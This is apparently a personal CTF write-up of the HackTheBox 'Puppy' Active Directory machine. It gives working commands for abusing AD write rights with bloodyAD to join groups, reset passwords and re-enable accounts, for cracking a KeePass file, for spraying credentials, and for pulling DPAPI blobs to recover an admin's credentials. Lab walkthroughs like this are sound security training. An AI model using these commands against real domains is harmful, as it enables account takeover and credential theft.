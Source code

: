 title: HackTheBox | Puppy | Medium
published: 2025-09-30
description: "In this write-up, I explain how I gained ownership of Puppy on HackTheBox."
image: "./img/image.png"
tags: [CTF, HTB, write-up]
category: 'CTF'
draft: false
---
## Summary

This was an Active Directory (AD) machine. I began with an Nmap scan, enumerated LDAP and SMB, collected BloodHound data, abused AD write privileges to gain access to a restricted SMB share, recovered a KeePass database, extracted credentials, used those to access a WinRM session, and finally extracted additional credentials from DPAPI blobs to escalate to the administrator account.
## Recon — Nmap

I always start with an Nmap scan. Results :

```text
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-09-28 21:20:34Z)
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3260/tcp open  iscsi?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h00m01s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-09-28T21:22:28
|_  start_date: N/A
```

The scan shows this is a domain controller (LDAP, Kerberos, , SMB). I added an entry to my `/etc/hosts` :

```text
10.10.11.70    DC.PUPPY.HTB PUPPY.HTB DC
```
## Initial access & enumeration

The box provided some credentials that I could use for enumeration. I had access to SMB and LDAP. I used these to gather AD data:

![](Season%208%20-%20Puppy.png)

- Enumerated SMB shares.

![](Season%208%20-%20Puppy-1.png)

- Queried LDAP/BloodHound information (I used `rusthound-ce` to collect AD relationships for BloodHound).
### BloodHound collection

I collected BloodHound data with:

```bash
rusthound-ce --domain puppy.htb -u levi.james -p 'KingofAkron2025!'
```

Then I imported the output into BloodHound and looked for interesting relationships. BloodHound showed our user levi member of HR have a **GenericWrite** over `DEVELOPERS` group.

![](Season%208%20-%20Puppy-2.png)

**Note on GenericWrite:** GenericWrite allows modification of many non-protected attributes. For user objects that can include `servicePrincipalName` (enabling targeted Kerberoasting). For group objects it allows adding members. For computer objects it allows writing `msds-KeyCredentialLink` to create shadow credentials (PKINIT). [See BloodHound docs for more details.](https://bloodhound.specterops.io/resources/edges/generic-write)
## Abusing GenericWrite to gain share access

With the account we have (`levi.james`) and the BloodHound findings, I used `bloodyAD` to add `levi.james` to the `DEVELOPERS` group (the tool reported success):

```bash
bloodyAD --host 10.10.11.70 -d puppy.htb -u levi.james -p 'KingofAkron2025!' add groupMember "DEVELOPERS" levi.james
```

After being added to `DEVELOPERS`, I rechecked SMB and discovered access to a `DEV` share.

```bash
smbmap -u levi.james -p '...' -H 10.10.11.70
```

![](Season%208%20-%20Puppy-4.png)

Inside the `DEV` share there was a file `recovery.kdbx` (a KeePass database). I downloaded it for offline analysis.

![](Season%208%20-%20Puppy-5.png)
## KeePass database — cracking and extraction

The KeePass database was password protected. I converted the `.kdbx` file to a John-compatible hash and cracked it with `john` (bleeding-jumbo):

```bash
# generate the keepass hash for john
keepass2john recovery.kdbx > hashkdbx

# crack with john
john --wordlist=/usr/share/wordlists/rockyou.txt hashkdbx
```

After cracking, I exported the KeePass entries (or opened `recovery.kdbx` in KeePassXC) and enumerated stored credentials.

```sh
keepassxc-cli export -f csv recovery.kdbx
```

I collected a list of usernames found in the KeePass file and BloodHound enumeration:

```text
jamie.williams
adam.silver
ant.edwards
steph.cooper
steph.cooper_adm
```

I verified which credentials were valid against SMB using `netexec` :

```bash
netexec smb 10.10.11.70 -u users.txt -p pass.txt
# example output showed PUPPY.HTB\ant.edwards was valid
```

I obtained valid credentials for `ant.edwards`.
## Abusing GenericAll to reset password

BloodHound showed that `ant.edwards` had **GenericAll** over `adam.silver` (GenericAll is equivalent to full control over a target object, meaning you can reset passwords, modify attributes, etc.).

![](Season%208%20-%20Puppy-9.png)

I used `bloodyAD` to set a new password for `adam.silver`:

```bash
bloodyAD --host "10.10.11.70" -d "puppy.htb" -u "ant.edwards" -p '<ANT_PASSWORD>' set password "adam.silver" "Password@1"
```

The password change succeeded, but the account was disabled. 

![](Windows%20Cheat%20Sheet.png)

I used `bloodyAD` again to clear the `ACCOUNTDISABLE` flag on the `userAccountControl` attribute:

```bash
bloodyAD --host "10.10.11.70" -d "puppy.htb" -u "ant.edwards" -p '<ANT_PASSWORD>' remove uac "adam.silver" -f ACCOUNTDISABLE
```

After enabling the account, `adam.silver` check what we have access to.

![](Windows%20Cheat%20Sheet-1.png)

## Initial foothold — WinRM and user flag

Using the `adam.silver` credentials, I authenticated over WinRM and obtained the user flag. 

During enumeration of `C:\Users\adam.silver\`, I found a `Backups` folder containing `site-backup-2024-12-30.zip`.

![](Season%208%20-%20Puppy-10.png)

I downloaded the backup ZIP and inspected its contents locally. Inside the backup I found credentials for `steph.cooper`.

![](Season%208%20-%20Puppy-11.png)
## Privilege escalation — DPAPI credential recovery

With `steph.cooper` credentials and a WinRM session as that user, I ran local enumeration (WinPEAS). WinPEAS reported locations where Windows stores credential blobs and MasterKeys:

![](Season%208%20-%20Puppy-16.png)

```powershell
# Credential blob location
C:\Users\<user>\AppData\Local\Microsoft\Credentials\<blob>

# MasterKey location
C:\Users\<user>\AppData\Roaming\Microsoft\Protect\<SID>\<MasterKey>
```

I confirmed the presence of both the credential blob(s) and the corresponding MasterKey for `steph.cooper` and transferred them to my attacking machine.

![](Season%208%20-%20Puppy-14.png)

Using Impacket's `dpapi` tools, I decrypted the blob and recovered `steph.cooper_adm` credentials.

![](Season%208%20-%20Puppy-15.png)
